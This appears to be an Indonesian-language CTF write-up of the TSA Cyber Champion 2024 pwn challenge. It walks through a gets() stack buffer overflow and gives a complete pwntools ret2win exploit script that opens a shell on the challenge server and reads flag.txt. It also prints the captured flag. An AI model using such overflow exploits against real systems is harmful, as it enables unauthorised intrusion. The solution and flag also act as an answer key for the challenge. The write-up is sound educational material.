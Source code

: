 +++
date = '2024-11-10T19:00:07+07:00'
draft = false
title = '[TSA Cyber Champion 2024] - Pwn'
tags = [
    "PWN",
    "Buffer Overflow",
    "Ghidra",
    "CTF",
    "ROP"
]
categories = [
    "PWN",
    "CTF Writeup"
]
image = "image-37.png"
+++

## Deskripsi Soal

![Deskripsi Soal](image-35.png)

Di soal ini, diberikan sebuah _source code_ dan juga server yang bisa saya hubungkan. Ketika saya coba akses servernya, tampilannya seperti ini:

![Tampilan Server](image-36.png)

Lalu, saya cek kode PWN-nya. Kode PWN ini adalah ELF 64-bit dengan karakteristik sebagai berikut:

![Informasi File PWN](image-37.png)

Dari informasi tersebut, ada beberapa hal yang perlu diperhatikan:

- Tidak ada stack canary (memungkinkan _buffer overflow_).
- No PIE (alamat fungsi tetap/tidak random).
- Stack executable (memungkinkan eksekusi shellcode).

## Analisis Program

Saya menganalisis program ini menggunakan Ghidra.

Hasil decompile pada fungsi `main` menunjukkan bahwa program meminta input nama user menggunakan fungsi `gets()`, yang rentan terhadap _buffer overflow_:

![Kode Fungsi Main](image-38.png)

Selain itu, ada juga fungsi `secret`.

![Kode Fungsi Secret](image-39.png)

![Kode Fungsi Secret Lebih Detail](image-40.png)

Fungsi `secret` ini tidak dipanggil dalam program normal. Jadi, tujuan kita adalah memanggil fungsi ini.

## Eksploitasi

Saya akan melakukan eksploitasi dengan tahapan sebagai berikut:

1.  **Menghitung Offset:**

    - Buffer size: 128 bytes
    - Saved RBP: 8 bytes
    - Total offset: 136 bytes

2.  **Mendapatkan Alamat Fungsi dan Gadget:**

    Saya menggunakan pwntools untuk mendapatkan alamat fungsi `secret` dan gadget `ret`.

    ```python
    secret_addr = elf.symbols['secret']
    ret = rop.find_gadget(['ret'])[0]
    ```

3.  **Membuat Payload:**

    Saya membuat payload untuk melakukan _buffer overflow_ dan memanggil fungsi `secret`.

    ```python
    padding = b"A" * 136
    payload = flat([
       padding,
       p64(ret),
       p64(secret_addr)
    ])
    ```

4.  **Eksploitasi:**

    Saya mengirim payload ke server dan berinteraksi untuk mendapatkan flag.

    ```python
    io = remote(HOST, PORT)
    io.recvuntil(b"Nama: ")
    io.send(payload)
    io.interactive()
    ```

Berikut adalah _script exploit_ lengkap yang saya gunakan:

```python
from pwn import *
# setting
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 64
context.log_level = 'debug'
# koneksi details
HOST = "0.cloud.chals.io"
PORT = 32229
# load binary
elf = ELF('./pwn')
# dapatkan alamat fungsi secret
secret_addr = elf.symbols['secret']

print(f"[*] Secret function address: {hex(secret_addr)}")

# cari ROP gadget untuk stack alignment
rop = ROP(elf)
ret = rop.find_gadget(['ret'])[0]

print(f"[*] RET gadget address: {hex(ret)}")

def create_payload():
   # fuffer overflow payload dengan stack alignment
   padding = b"A" * 136  # Buffer + saved rbp (bisa disesuaikan)
   # stack alignment + return to secret
   payload = flat([
       padding, # padding sampai return address
       p64(ret), # stack alignment
       p64(secret_addr) # alamat fungsi secret
   ])

   return payload

def exploit():
   try:
       # koneksi ke server
       io = remote(HOST, PORT)
       # terima prompt
       print(io.recvuntil(b"Nama: ").decode())

       # buat dan kirim payload
       payload = create_payload()
       print(f"[*] Sending payload of length: {len(payload)}")
       io.send(payload)

       sleep(0.5)

       # kirim beberapa perintah untuk memastikan shell aktif
       io.sendline(b"echo 'Shell aktif'")
       io.sendline(b"ls -la")
       io.sendline(b"cat flag.txt")

       # interactive mode
       io.interactive()

   except EOFError:
       print("Got EOF. Connection closed.")
   except Exception as e:
       print(f"Error: {str(e)}")
   finally:
       io.close()

if __name__ == "__main__":
   exploit()
```

## Hasil

Setelah menjalankan _script exploit_, berhasil mendapatkan akses shell!

![Akses Shell](image-41.png)

Saya melihat ada sebuah file bernama `flag.txt`.

![File Flag](image-42.png)

Saya coba baca isi file `flag.txt`.

![Isi File Flag](image-43.png)

## Solusi

**Flag:** `TSA{PWN_101_2d2de462ebe19a876eb74b1c9c053120}`
